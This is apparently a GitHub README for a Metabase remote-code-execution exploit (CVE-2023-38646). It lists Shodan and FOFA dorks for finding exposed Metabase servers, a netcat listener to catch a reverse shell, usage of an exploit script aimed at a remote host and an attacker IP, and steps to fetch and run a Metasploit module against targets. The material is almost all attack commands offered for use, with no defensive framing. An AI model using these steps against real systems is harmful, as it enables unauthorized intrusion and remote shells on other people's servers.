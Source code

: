 # CVE-2023-38646
![](https://img.shields.io/static/v1?label=Product&message=Metabase&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Open%20Source%20before%200.46.6.1%20and%20Enterprise%20before%201.46.6.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
product:"Metabase"
```
- FOFA dork:
```
app="Metabase"
```
## Install
```
pip install requests
```

## Usage
```
nc -nvlp 4444
```

```
python3 exploit.py --rhost url_remote_host --lhost attacker_ip --lport 4444
```

## Install Metasploit
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Metabase/metabase_setup_token_rce.rb
```
```
cp metabase_setup_token_rce.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```

## Usage Metasploit
```
msfdb reinit; msfconsole -q
```
```
use exploit/linux/http/metabase_setup_token_rce.rb
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
